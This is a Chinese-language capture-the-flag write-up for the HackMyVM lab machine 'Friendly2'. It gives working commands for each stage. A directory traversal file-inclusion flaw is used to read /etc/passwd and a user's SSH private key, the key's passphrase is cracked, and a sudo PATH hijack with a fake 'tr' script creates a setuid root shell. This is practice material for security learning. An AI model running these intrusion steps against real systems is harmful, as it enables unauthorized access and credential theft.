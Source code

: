 # Friendly2

2025.02.22 https://hackmyvm.eu/machines/machine.php?vm=Friendly2

[video](https://www.bilibili.com/video/BV1GtPTekE8z/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 扫描 发现 http://192.168.5.40/tools/ 查看源码发现注释信息：

```
<!-- Redimensionar la imagen en check_if_exist.php?doc=keyboard.html -->
```

访问 http://192.168.5.40/tools/check_if_exist.php?doc=keyboard.html 这里可能存在文件包含，尝试访问：

```
http://192.168.5.40/tools/check_if_exist.php?doc=../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
gh0st:x:1001:1001::/home/gh0st:/bin/bash
```

ffuf 看看还能读取到哪些信息：

```
ffuf -t 100 -ac -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.5.40/tools/check_if_exist.php?doc=../../../../../FUZZ
```

不能读取 apache 的 access.log 文件，尝试读取 gh0st 中.ssh 私钥看看能否读取：

```
curl http://192.168.5.40/tools/check_if_exist.php?doc=../../../../../../home/gh0st/.ssh/id_rsa
```

将读取的密钥保存，但是密钥有密码，使用 john 进行破解，得到私钥密码为 celtic , ssh 登陆用户 gh0st ， 得到了 user flag:

```
gh0st@friendly2:~$ cat user.txt
ab0366431e2d8ff563cf34272e3d14bd
```

sudo -l 发现 (ALL : ALL) SETENV: NOPASSWD: /opt/security.sh 可以 SETENV PATH 路径劫持，同时发现脚本中都没有使用命令的绝对路径，劫持 tr 命令，进行利用：

```
cd /tmp
echo 'cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' > tr
chmod +x tr
sudo -u root PATH=/tmp:$PATH /opt/security.sh
./rootbash -p
```

寻找最终 root flag:

```
rootbash-5.1# cd ...
rootbash-5.1# ls -al
total 12
d-wx------  2 root root 4096 Apr 29  2023 .
drwxr-xr-x 19 root root 4096 Apr 27  2023 ..
-r--------  1 root root  100 Apr 29  2023 ebbg.txt
rootbash-5.1# cat ebbg.txt
It's codified, look the cipher:

98199n723q0s44s6rs39r33685q8pnoq

Hint: numbers are not codified
```

提示有编码，查看 /opt/security.sh 中的内容使用的是最字符进行 rot13 转换，使用 cyberchef 进行转换得到最终 flag : 98199a723d0f44f6ef39e33685d8cabd
